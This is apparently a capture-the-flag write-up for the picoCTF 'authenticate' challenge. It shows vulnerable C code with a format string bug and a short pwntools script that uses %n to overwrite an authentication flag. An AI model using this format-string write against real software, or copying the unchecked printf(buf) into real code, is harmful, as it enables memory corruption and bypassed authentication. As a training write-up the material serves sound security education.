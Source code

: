 authenticate - Points: 350
===========

## Description

> Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 43438

## Hint:

> *  What happens if you say something OTHER than yes or no?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

## Useful Information

Format String Bug :
> * printf(buf);

If authenticated != 0 we get flag :exclamation: 

## Exploit


**Write a new value for authenticated with the Format String Bug :**

```python
#!/usr/bin/python2.7
from pwn import *

rem = remote("2018shell3.picoctf.com",43438)
rem.recv(4096)
aut_adr=0x804a04c

rem.sendline(p32(aut_adr)+"%%11$n")
rem.interactive()

```
